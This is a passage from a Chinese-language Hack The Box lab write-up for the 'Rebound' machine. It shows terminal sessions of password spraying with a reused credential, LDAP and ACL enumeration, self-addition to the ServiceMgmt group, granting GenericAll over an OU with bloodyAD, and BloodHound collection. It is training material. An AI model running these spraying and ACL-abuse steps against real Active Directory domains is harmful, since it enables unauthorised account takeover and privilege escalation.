SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u
SMB         10.129.6.63    445    DC01             [*] Enumerated shares
SMB         10.129.6.63    445    DC01             Share           Permissions     Remark
SMB         10.129.6.63    445    DC01             -----           -----------     ------
SMB         10.129.6.63    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.6.63    445    DC01             C$                              Default share
SMB         10.129.6.63    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.6.63    445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.6.63    445    DC01             Shared          READ
SMB         10.129.6.63    445    DC01             SYSVOL          READ            Logon server share

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec winrm rebound.htb -u 'ldap_monitor' -p '1GR8t@$$4u'
WINRM       10.129.6.63    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.6.63    5985   DC01             [-] rebound.htb\ldap_monitor:1GR8t@$$4u

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec ldap rebound.htb -u 'ldap_monitor' -p '1GR8t@$$4u'
SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.6.63    636    DC01             [-] rebound.htb\ldap_monitor:1GR8t@$$4u
LDAPS       10.129.6.63    636    DC01             [-] LDAPS channel binding might be enabled, this is only supported with kerberos authentication. Try using '-k'.

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec ldap rebound.htb -u 'ldap_monitor' -p '1GR8t@$$4u' -k
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        rebound.htb     389    DC01             [-] rebound.htb\ldap_monitor:1GR8t@$$4u KRB_AP_ERR_SKEW

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo ntpdate 10.129.6.63
2025-03-11 17:37:33.062559 (+0800) +600.420632 +/- 0.094441 10.129.6.63 s1 no-leap
CLOCK: time stepped by 600.420632

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec ldap rebound.htb -u 'ldap_monitor' -p '1GR8t@$$4u' -k
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       rebound.htb     636    DC01             [+] rebound.htb\ldap_monitor
```

###  **Password Spraying**

> 因为`ldap_monitor`看起来像是一个功能性账号，使用者可能会复用这个密码，所以还是有必要再去爆破一下用户的

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec smb rebound.htb -u users -p '1GR8t@$$4u' --continue-on-success
SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [-] rebound.htb\Administrator:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\Guest:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\krbtgt:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\ppaul:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\llune:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\fflock:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\jjones:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\mmalone:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\nnoon:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u
SMB         10.129.6.63    445    DC01             [+] rebound.htb\oorend:1GR8t@$$4u
SMB         10.129.6.63    445    DC01             [-] rebound.htb\winrm_svc:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\batch_runner:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.6.63    445    DC01             [-] rebound.htb\tbrady:1GR8t@$$4u STATUS_LOGON_FAILURE
```

> 查看一下`oorend`这个用户的权限

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec smb rebound.htb -u 'oorend' -p '1GR8t@$$4u' --shares
SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [+] rebound.htb\oorend:1GR8t@$$4u
SMB         10.129.6.63    445    DC01             [*] Enumerated shares
SMB         10.129.6.63    445    DC01             Share           Permissions     Remark
SMB         10.129.6.63    445    DC01             -----           -----------     ------
SMB         10.129.6.63    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.6.63    445    DC01             C$                              Default share
SMB         10.129.6.63    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.6.63    445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.6.63    445    DC01             Shared          READ
SMB         10.129.6.63    445    DC01             SYSVOL          READ            Logon server share

===========================================================================================================

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec winrm rebound.htb -u 'oorend' -p '1GR8t@$$4u'
WINRM       10.129.6.63    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.6.63    5985   DC01             [-] rebound.htb\oorend:1GR8t@$$4u

===========================================================================================================

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo ntpdate 10.129.6.63
2025-03-11 17:46:58.370102 (+0800) +45.008948 +/- 0.041293 10.129.6.63 s1 no-leap
CLOCK: time stepped by 45.008948

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec ldap rebound.htb -u 'oorend' -p '1GR8t@$$4u' -k
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       rebound.htb     636    DC01             [+] rebound.htb\oorend
```

> 可以看到smb是可以进行枚举的，接下来尝试一下是否可以通过smb获得立足点

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo impacket-smbexec rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -dc-ip rebound.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

===========================================================================================================

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo impacket-smbexec rebound.htb/ldap_monitor:'1GR8t@$$4u'@rebound.htb -dc-ip rebound.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

> 很可惜全部失败了，那我们只能通过ldap进行进一步枚举来寻找立足点，我们来借助powerview.py来进行枚举

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo ntpdate 10.129.6.63
2025-03-11 17:57:56.796339 (+0800) +53.449808 +/- 0.038398 10.129.6.63 s1 no-leap
CLOCK: time stepped by 53.449808

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ powerview  rebound.htb/oorend:'1GR8t@$$4u'@10.129.6.63 -k
Logging directory is set to /home/whoami/.powerview/logs/rebound-oorend-10.129.6.63
[2025-03-11 17:59:56] [Storage] Using cache directory: /home/whoami/.powerview/storage/ldap_cache
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV >
```

### **Enumeration(一):手工枚举**

#### **ACL Analysis**

> 成功进入，接下来进行枚举

```assembly
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ powerview  rebound.htb/oorend:'1GR8t@$$4u'@10.129.6.63 -k

Logging directory is set to /home/whoami/.powerview/logs/rebound-oorend-10.129.6.63
[2025-03-11 18:04:12] [Storage] Using cache directory: /home/whoami/.powerview/storage/ldap_cache
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainUser -Identity oorend #查看oorend用户信息
cn                                : oorend  #通用名，AD 对象显示名称，域内对象通用标识名。
distinguishedName                 : CN=oorend,CN=Users,DC=rebound,DC=htb #用户完整 LDAP 路径
name                              : oorend #对象名称，和 CN 基本一致。
objectGUID                        : {edb118e8-3995-45d9-89f1-bf978e4e7fa4} #域内对象全局唯一 GUID，AD 迁移、权限绑定、跨域标识用，终身不变。
userAccountControl                : NORMAL_ACCOUNT [66048] #正常启用账号，非禁用、非设备账号
                                    DONT_EXPIRE_PASSWORD #密码永不过期（高危配置，密码设置后不会强制改密）
badPwdCount                       : 0 #错误密码尝试计数，0 = 近期无输错密码，输错一次 + 1，到达域锁定阈值账号锁定。
badPasswordTime                   : 09/04/2023 09:54:33 (1 year, 11 months ago)#最后一次输错密码时间
lastLogoff                        : 0 #Windows 不记录登出时间，固定为 0，无参考意义。
lastLogon                         : 11/03/2025 10:04:43 (today) #最后域控制器登录时间
pwdLastSet                        : 08/04/2023 09:07:56 (1 year, 11 months ago) #最后一次修改密码时间
primaryGroupID                    : 513 #513 = Domain Users 用户默认主组是域用户组，所有域用户默认归属此组。
objectSid                         : S-1-5-21-4078382237-1492182817-2568127209-7682 #安全标识符 SID：Windows 权限核心标识，末尾7682是用户 RID；域前缀S-1-5-21-xxx是域 SID，ACL 授权、本地权限、令牌生成依赖 SID。
sAMAccountName                    : oorend  #登录用户名
sAMAccountType                    : SAM_USER_OBJECT #标识对象类型：普通域用户账号，区别于计算机账号、域组。

objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=rebound,DC=htb
msDS-SupportedEncryptionTypes     :

(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainUser -Identity ldap_monitor #查看ldap_monitor用户信息
cn                                : ldap_monitor
distinguishedName                 : CN=ldap_monitor,CN=Users,DC=rebound,DC=htb
name                              : ldap_monitor
objectGUID                        : {cf7691bd-5b32-407d-9d42-262013f10288}
userAccountControl                : NORMAL_ACCOUNT [66048]
                                    DONT_EXPIRE_PASSWORD
badPwdCount                       : 0
badPasswordTime                   : 08/04/2023 15:46:25 (1 year, 11 months ago)
lastLogoff                        : 0
lastLogon                         : 11/03/2025 09:37:48 (today)
pwdLastSet                        : 08/04/2023 09:07:56 (1 year, 11 months ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4078382237-1492182817-2568127209-7681
sAMAccountName                    : ldap_monitor
sAMAccountType                    : SAM_USER_OBJECT
servicePrincipalName              : ldapmonitor/dc01.rebound.htb
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=rebound,DC=htb
msDS-SupportedEncryptionTypes     :

###查看访问控制列表
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainObjectAcl  -SecurityIdentifier S-1-5-21-4078382237-1492182817-2568127209-7681
[2025-03-11 18:10:50] [Get-DomainObjectAcl] Recursing all domain objects. This might take a while

(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainObjectAcl  -SecurityIdentifier S-1-5-21-4078382237-1492182817-2568127209-7682
[2025-03-11 18:11:33] [Get-DomainObjectAcl] Recursing all domain objects. This might take a while
ObjectDN                    : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb #权限是作用在谁身上
ObjectSID                   : S-1-5-21-4078382237-1492182817-2568127209-7683
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : None
ActiveDirectoryRights       : Self #oorend用户具有活动目录权限 可修改目标用户的属性、重置密码、改 SPN
AccessMask                  : Self #权限掩码
InheritanceType             : None #权限是否继承
SecurityIdentifier          : REBOUND\oorend  #谁拥有这个权限
```

> 根据对oorend访问控制列表权限的查看，发现oorend有self活动目录权限，这个权限的目标是`ServiceMgmt`,权限类型是允许访问访问控制项，这种权限允许oorend修改与自身相关的属性，比如可以把oorend加入到`ServiceMgmt`组
>
> 用户：REBOUND\oorend 对 域用户：ServiceMgmt 拥有权限：Self（可修改属性、重置密码） 权限类型：允许

> 接下来查看一下**哪些用户或组对 `Domain Controllers` 组织单元拥有权限**
>
> ==**Why?** Domain Controllers（DC OU）存放所有域控计算机对象，能修改此 OU 权限 = 可控域控、拿下整个域，所以渗透必查该 OU ACL==

```assembly
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainObjectAcl -Identity "OU=Domain Controllers,DC=rebound,DC=htb"

ObjectDN                    : OU=Domain Controllers,DC=rebound,DC=htb
ObjectSID                   : []
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : None
ActiveDirectoryRights       : Read
AccessMask                  : Read
InheritanceType             : None
SecurityIdentifier          : Authenticated Users

......

ObjectDN                    : OU=Domain Controllers,DC=rebound,DC=htb
ObjectSID                   : []
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : CONTAINER_INHERIT_ACE, INHERITED_ACE
ActiveDirectoryRights       : ReadAndExecute
AccessMask                  : ReadAndExecute
InheritanceType             : None
SecurityIdentifier          : Administrators
```

> 没有收获，接下来查看一下**哪些用户或组对 `Service Users` 组织单元拥有权限**
>
> ==**why?** ServiceUsers 这个 OU 里全是**业务服务账号（带 SPN、能 Kerberoast、大多高权限）**，谁能改这个 OU，谁就能批量劫持一堆服务账号横向提权。==

```apl
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]

......

ObjectDN                    : OU=Service Users,DC=rebound,DC=htb
ObjectSID                   : []
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : None
ActiveDirectoryRights       : FullControl
AccessMask                  : FullControl
InheritanceType             : None
SecurityIdentifier          : REBOUND\ServiceMgmt #ServiceMgmt属于Service Users OU当中的

......
```

> 我们继续查看一下`Service Users`对外能够延展出哪些能力

```assembly
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainObject -SearchBase "OU=Service Users,DC=rebound,DC=htb"

......

objectClass                       : top
                                    person
                                    organizationalPerson
                                    user
cn                                : winrm_svc #这个用户似乎有远程登陆的权限
distinguishedName                 : CN=winrm_svc,OU=Service Users,DC=rebound,DC=htb
instanceType                      : 4
whenCreated                       : 08/04/2023 09:07:56 (1 year, 11 months ago)
whenChanged                       : 11/03/2025 17:33:00 (today)
uSNCreated                        : 69329
memberOf                          : CN=Remote Management Users,CN=Builtin,DC=rebound,DC=htb #Windows 默认允许 WinRM 远程登录的组
uSNChanged                        : 192399
name                              : winrm_svc
objectGUID                        : {e3c7114f-5864-4115-b3fb-4587e25790f5}
userAccountControl                : NORMAL_ACCOUNT [66048]
                                    DONT_EXPIRE_PASSWORD
badPwdCount                       : 1
codePage                          : 0
countryCode                       : 0
badPasswordTime                   : 11/03/2025 09:43:55 (today)
lastLogoff                        : 0
lastLogon                         : 08/04/2023 17:03:38 (1 year, 11 months ago)
logonHours                        : ////////////////////////////
pwdLastSet                        : 11/03/2025 17:33:00 (today)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4078382237-1492182817-2568127209-7684
accountExpires                    : 0
logonCount                        : 3
sAMAccountName                    : winrm_svc
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=rebound,DC=htb
dSCorePropagationData             : 20250311173300.0Z
                                    20250311173203.0Z
                                    20250311173202.0Z
                                    20250311173201.0Z
                                    16010101000000.0Z
lastLogonTimestamp                : 25/08/2023 21:41:16 (1 year, 6 months ago)
msDS-SupportedEncryptionTypes     :

......
```

#### **获取 ServiceMGMT Group**

> 简单浏览之后，` winrm_svc`这个用户引起了我的注意，和`ldap_monitor`一样，像是一个功能性账户，不出意外的话，它应该可以用远程登录，我们以它为线索来查看一下它属于哪个组

```assembly
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainGroup -MemberIdentity "winrm_svc"

cn                    : Remote Management Users
description           : Members of this group can access WMI resources over management protocols (such as WS-Management via
                        the Windows Remote Management service). This applies only to WMI namespaces that grant access to the
                         user.
member                : CN=winrm_svc,OU=Service Users,DC=rebound,DC=htb
distinguishedName     : CN=Remote Management Users,CN=Builtin,DC=rebound,DC=htb
instanceType          : 4
name                  : Remote Management Users #远程管理用户组
objectGUID            : {263ebfb8-61f1-4f04-97d1-c0e7399e85c8}
objectSid             : S-1-5-32-580
sAMAccountName        : Remote Management Users
sAMAccountType        : SAM_ALIAS_OBJECT
groupType             : -2147483643
objectCategory        : CN=Group,CN=Schema,CN=Configuration,DC=rebound,DC=htb
```

> ` winrm_svc`这个用户应该可以实现远程登录，可以用oorend尝试加入`ServiceMgmt`组

> 此时 `servicemgmt`组 只有两个人

```assembly
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainGroupMember -Identity servicemgmt

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : fflock
MemberDistinguishedName     : CN=fflock,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-3382
```

#### **Join servicemgmt**

> 将oorend加入到`servicemgmt`,`servicemgmt`组 就变成三个人了

```assembly
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
[2025-03-12 01:46:40] User oorend successfully added to servicemgmt

(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > Get-DomainGroupMember -Identity servicemgmt
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : fflock
MemberDistinguishedName     : CN=fflock,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-3382

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

> 成功加入`servicemgmt`组,我们可以赋予oorend很高的权限，这个行为powerview中执行不了，我们使用BloodyAD

```
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=Service Users,DC=rebound,DC=htb' oorend
[+] oorend has now GenericAll on OU=Service Users,DC=rebound,DC=htb
```

### **Enumeration(二):Bloodhound枚举**

#### **Pull Bloodhound data**

> `Bloodhound-python` 提取数据信息

```apl
bloodhound-python -d rebound.htb -c all -u oorend -p '1GR8t@$$4u' -ns 10.129.6.63
--zip
```



> `Bloodhound-python`是有替代品的，可以用`Netexec`来实现

```apl
sudo Netexec ldap rebound.htb -u ldap_monitor -p '1GR8t@$$4u' -k --bloodhound -c all --dns-server 10.129.6.63 
```

#### **BloodHound Start**

> 先启动`Bloodhound`的数据库,第一次登录需要更改账户密码

```
┌──(whoami👑.AsyNoo)-[~]
└─$ sudo neo4j console
[sudo] password for whoami:
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2025-03-13 07:51:39.590+0000 INFO  Starting...
2025-03-13 07:51:39.962+0000 INFO  This instance is ServerId{5392ff1f} (5392ff1f-c87e-4fc7-8744-17a3eda5fddb)
2025-03-13 07:51:40.923+0000 INFO  ======== Neo4j 4.4.26 ========
2025-03-13 07:51:41.834+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2025-03-13 07:51:41.835+0000 INFO  Updating the initial password in component 'security-users'
2025-03-13 07:51:42.727+0000 INFO  Bolt enabled on localhost:7687.
2025-03-13 07:51:43.372+0000 INFO  Remote interface available at http://localhost:7474/
2025-03-13 07:51:43.375+0000 INFO  id: 98D02DAFB6D73741C27255CE5678C2B2D6142F047F9B59FF306C2826B79E1B18
2025-03-13 07:51:43.375+0000 INFO  name: system
2025-03-13 07:51:43.375+0000 INFO  creationDate: 2025-03-12T00:26:19.021Z
2025-03-13 07:51:43.375+0000 INFO  Started.
```

> 启动`Bloodhound`

```
┌──(whoami👑.AsyNoo)-[~]
└─$ sudo bloodhound

(node:1741) electron: The default of contextIsolation is deprecated and will be changing from false to true in a future release of Electron.  See https://github.com/electron/electron/issues/23506 for more information
(node:1785) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
```



#### **Upload Data**

> 将数据上传



